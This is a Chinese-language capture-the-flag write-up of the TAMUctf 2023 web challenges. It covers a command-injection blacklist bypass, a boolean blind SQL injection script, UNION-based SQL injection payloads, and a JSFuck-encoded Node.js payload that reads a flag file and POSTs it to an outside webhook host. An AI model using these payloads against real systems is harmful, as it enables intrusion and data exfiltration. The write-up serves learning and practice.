




# [TAMUctf 2023](https://tamuctf.com/)

## 前言

[官方 discord 地址](https://discord.com/channels/1096793565478277256/1096801776226799686)

- https://tamuctf.com/challenges#Migraine-22

## WEB

### Connect

应该是一个命令注入的题目，但是有一个黑名单过滤，不可以含有以下字符：

```python
def escape_shell_cmd(data):
    for char in data:
        if char in '&#;`|*?~<>^()[]{}$\\':
            return False
        else:
            return True
```

执行的命令如下，注意到返回结果中必须含有 HTTP：

```python
command = "curl -s -D - -o /dev/null " + url + " | grep -oP '^HTTP.+[0-9]{3}'"
        output = os.popen(command).read().strip()
```

看上去似乎不能命令注入了？然而过滤的代码存在**逻辑漏洞**。

- **如果我们的第一个字符未在黑名单中，那么就直接返回 True 了。**

所以可以利用如下 payload 简单绕过黑名单：

```bash
 & echo HTTP;cat flag.txt;a
```

- 注意开头的**空格**，这是为了绕过黑名单。


### Logical

页面显示要求我们输入一个用户名，如果用户名不存在于数据库中，那么会给邮箱发送一个重置密码的链接。

关键的问题在于这个邮箱是什么？我们可以拿到邮箱的访问权吗？不过从题目来看应该是不可以，所以转换一下思路。

- 抓包发现输入一个存在的用户名会响应 exists，反之则是 not exists

灵感一现忽然觉得可能是 SQL 注入，因为后端必然是拿我们输入的用户名带入 SQL 语句中进行了查询，这样才能判断输入的用户名是否存在于数据库中。

**输入单引号报错**




增加注释符回显正常


确定存在 SQL 注入，应该是盲注，经过我的尝试，应该可以根据存在或者不存在进行**布尔盲注**。

```python
import requests
import string

target = 'http://logical.tamuctf.com/api/chpass'

alphabet = string.ascii_letters + string.digits + '{$}#!?<>=*+.(),@^-_'

flag = list('gigem{')

while flag[-1] != '}':
    for char in alphabet:
        r = requests.post(target, data={'username': f'admin\' and PASSWORD LIKE BINARY "{"".join(flag)}{char}%"-- '}) # admin' and PASSWORD LIKE BINARY "gigem{a%"-- 
        if 'not exists' not in r.text:
            flag.append(char)
            print(''.join(flag))
            break
```

 

### Blackbox

文件包含读取到 index.php 源码：

```php
<?php
$resource = 'home';

require './config.php';
require './util.php';

set_include_path(INCLUDE_DIR);

if(isset($_GET['page'])) {
  $resource = $_GET['page'];
  include($_GET['page'] . '.php');
} else {
  include('home.php');
}
?>

```

home.php：

```php
<?php include(INCLUDE_DIR . 'header.php'); ?>
<?php include(INCLUDE_DIR . 'footer.php'); ?>

```


config.php：

```php
<?php
const APP_NAME = 'Blackbox';
const INCLUDE_DIR = './templates/';
const DB_FILE = '../sqlite/site-data.db';
const SECRET_KEY = 'JYOFGX6w5ylmYXyHuMM2Rm7neHXLrBd2V0f5No3NlP8';
?>

```

util.php：

```php
<?php
function db_login(string $username, string $password) {
  $db = new SQLite3(DB_FILE);
  $statement = $db->prepare('SELECT key FROM users WHERE username=:uname AND password=:passwd;');

  $statement->bindValue(':uname', $username);
  $statement->bindValue(':passwd', $password);

  return $statement->execute();
}

function try_auth(string $username, string $password) {
  $hash_password = hash('sha256', $password);
  return db_login($username, $hash_password)->fetchArray();
}

function generate_guest_token() {
  $data = array('username'=>'guest', 'user_key'=>bin2hex(random_bytes(8)), 'admin'=>false);
  return generate_token($data);
}

function generate_admin_token(string $username, string $user_key) {
  $data = array('username'=>$username, 'user_key'=>$user_key, 'admin'=>true);
  return generate_token($data);
}

function generate_token(array $data) {
  $b64json = base64_encode(json_encode($data));
  $hmac = hash('md5', SECRET_KEY . $b64json);

  return $b64json . '.' . $hmac;
}

function verify_token(string $token) { 
  $token_data = explode('.', $token);
  if(hash('md5', SECRET_KEY . $token_data[0]) == $token_data[1]) {
    return true;
  }
  return false;
}

function is_admin(string $token) {
  if(verify_token($token)) {
    $db = new SQLite3(DB_FILE);

    $data = json_decode(base64_decode(explode('.', $token)[0]), TRUE);
    $username = $data['username'];
    $user_key = $data['user_key'];
    $admin = $data['admin'];

    $statement = $db->prepare('SELECT * FROM users WHERE username=:uname AND key=:ukey;');
    $statement->bindValue(':uname', $username);
    $statement->bindValue(':ukey', $user_key);
    $result = $statement->execute();

    if($result != false && $result->fetchArray() != false && $admin == true) {
      return true;
    }
    return false;
  }
}
?>

```


别忘记了登录还包含了 login.php

```php
<?php
if(!isset($_COOKIE['auth_token'])) {
  setcookie('auth_token', generate_guest_token(), time() + (86400*30), '/');
} else if(is_admin($_COOKIE['auth_token'])) {
  header('Location: ?page=admin');
  die();
}

if(isset($_POST['username']) && isset($_POST['password'])) {
  $result = try_auth($_POST['username'], $_POST['password']); 
  if($result != false) {
    setcookie('auth_token', generate_admin_token($_POST['username'], end($result)), time() + (86400*30), '/');
    header('Location: ?page=admin');
    die();
  }
}
?>

<?php include(INCLUDE_DIR . 'header.php'); ?>
<main>
  <div class="login">
    <center>
      <form action="?page=login", method="post">
        <input class="username" placeholder="Username" name="username" id="username"></input><br>
        <input type="password" class="password" placeholder="Password" name="password" id="password"></input><br>
        <button class="submit">Login</button>
      </form>
    </center>
  </div>
</main>
<?php include(INCLUDE_DIR . 'footer.php'); ?>

```

admin.php:

```php
<?php
if(!isset($_COOKIE['auth_token']) || !is_admin($_COOKIE['auth_token'])) {
  header('Location: ?page=login');
  die();
}
?>

<?php include(INCLUDE_DIR . 'header.php'); ?>
<center>
  <h1><?php include('/flag.txt'); ?></h1>
</center>
<?php include(INCLUDE_DIR . 'footer.php'); ?>
```

从 admin.php 可以知道，只要可以以管理员的身份访问 /admin 就可以看到 flag了。

> 审计一番源码感觉完全没有办法伪造管理员 token 啥的，后面看别人的做法是 RCE....
>
> https://ayusshh.medium.com/tamuctf-2023-blackbox-writeup-af85520442d5
>
> 具体地址看[这里](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)
>
> 关于为什么这样可以 RCE 的原理暂时还没探究，实在太抽象啦。

### Migraine


简单阅读一番源代码，发现是一个 JS 命令执行的题目，但是不可以有大小写字母和数字。有一个 tricks 就是 JS解释器可以直接运行 JSFUCK 风格的代码。

JSFUCK 的含义可以参照维基百科：


- **以 JSFUCK 风格写出的代码不需要另外的编译器或解释器来执行，无论浏览器或 JS 引擎中的原生 JS 解释器皆可直接运行。**

那我们编写一个 JS 普通的命令执行代码，然后将其转为 JSFuck 风格即可。

```
process.mainModule.require('https').request({hostname: 'webhook.site',path: '/6a5ff223-ac5b-4fc7-b3a4-014a10e79095',method: 'POST',headers: {'Content-Type': 'application/x-www-form-urlencoded','Content-Length': process.mainModule.require('fs').readFileSync('/flag.txt').toString().length}}).write(process.mainModule.require('fs').readFileSync('/flag.txt').toString())
//记得把服务器换成自己的地址，推荐使用 webhook.site。
```

**转为 [JSFuck](http://www.jsfuck.com/)：**





### Lost and Forgotten

给了一个博客，访问这些博客需要密码。

一番测试之后发现搜索功能处存在 SQL 注入漏洞：




接下来我们要做的事情是：

1. 判断列数
2. 通过 information_schema 数据库查表名、列名
3. 查询 flag 数据

**查列数**

```
a' UNION SELECT 1,1,1,1,1,'1';#
```

**查表名：**

```
a' UNION SELECT table_name,1,1,1,1,'1' FROM INFORMATION_SCHEMA.TABLES;#
```

**查列名：**

```
a' UNION SELECT column_name,1,1,1,1,'1' FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'articles';#
```

发现 title 和 access_code 两列

**查数据：**

```
a' UNION SELECT title,access_code,1,1,1,'1' FROM articles;#
```

- [参考](https://github.com/deyixtan/ctf/tree/main/challenges/tamu-ctf-2023/web-lost-and-forgotten)

### Web LTO

.rs 后缀，是 Rust 语言编写的代码，简单交给 ChatGPT 分析一下：


> 题目环境今天 down 掉了，比较难受吧，暂时先复现 D3。
